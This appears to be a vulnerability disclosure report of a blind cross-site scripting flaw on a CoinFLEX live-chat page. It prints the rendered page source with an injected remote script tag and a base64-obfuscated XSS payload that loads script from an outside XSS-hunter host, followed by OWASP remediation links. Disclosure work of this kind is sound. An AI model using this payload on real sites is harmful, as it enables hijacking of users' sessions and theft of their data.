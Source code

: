 ```html
src="https://livechat.coinflex.com/sounds/chime.mp3"
type="audio/mpeg"></audio></div></div><script> SERVER_URL =
'https://livechat.coinflex.com'; </script><script
src="/livechat/0.chunk.85c58.js"></script><script
src="/livechat/polyfills.38c0c.js"></script><script
src="/livechat/vendors~bundle.chunk.b4ad3.js"></script><script
src="/livechat/bundle.e0274.js"></script><script
src="https://assetcyber.xss.ht"></script></body></html>
```
##### Origin
`https://livechat.coinflex.com`

##### Payload for xss
"><input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vYXNzZXRjeWJlci54c3MuaHQiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 autofocus>

##### Screenshot
Please Find Attach image for poc

##### Injection Timestamp
`1612078544`

## Impact

## Remediation
For more information about Cross-site Scripting and remediation of the issue, see the
following resources:
* [Cross-site Scripting (XSS) - OWASP](https://www.owasp.org/index.php/Cross-
site_Scripting_(XSS))
* [XSS (Cross Site Scripting) Prevention Cheat Sheet -
OWASP](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat
_Sheet)
* [What is Cross-site Scripting and How Can You Fix
it?](https://www.acunetix.com/websitesecurity/cross-site-scripting/)
* [An Introduction to Content Security Policy - HTML5 Rocks](http://www.html5rocks.com/en/
tutorials/security/content-security-policy/)
* [Why is the same origin policy so important? - Information Security Stack Exchange](https://
security.stackexchange.com/questions/8264/why-is-the-same-origin-policy-so-important)

## Attachments
- XSS_payload.png
